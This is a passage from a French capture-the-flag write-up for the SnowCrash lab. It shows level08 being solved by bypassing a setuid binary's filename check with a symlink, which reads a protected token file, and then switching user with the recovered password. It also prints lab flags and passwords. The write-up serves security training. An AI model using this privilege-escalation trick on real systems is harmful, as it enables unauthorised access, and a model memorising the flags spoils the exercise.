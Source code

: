 ### Flag: `fiumuikeil55xe9cu4dood66h`

---

## Level08

```
$> ls -la
-rwsr-s---+ 1 flag08 XX XX level08
-rw-------  1 flag08 XX XX token
```

`level08` est un executable owned par flag08 et qui utilise `setuid()`.<br />
Le fichier token n'est pas lisible par l'utilisateur level08.

```
$> ./level08 token
You may not access 'token'
$> strings ./level08
[...]
open
[...]
token
[...]
strstr
[...]
```

On imagine que le level08 check si argv1 contient la string `token` et si il ne la contient pas il affiche le contenu du fichier

```
$> ./level08 /etc/hosts
127.0.0.1 localhost
127.0.1.1 SnowCrash

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
ff02::3 ip6-allhosts

$> ./level08 ../level08/token
You may not access '../level08/token'
$> ln -s token tekken
$> ./level08 tekken 
quif5eloekouj29ke0vouxean
$> su flag08
Password: quif5eloekouj29ke0vouxean
```

### Flag: `25749xKZ8L7DkSCwJkT9dyv6f`

---
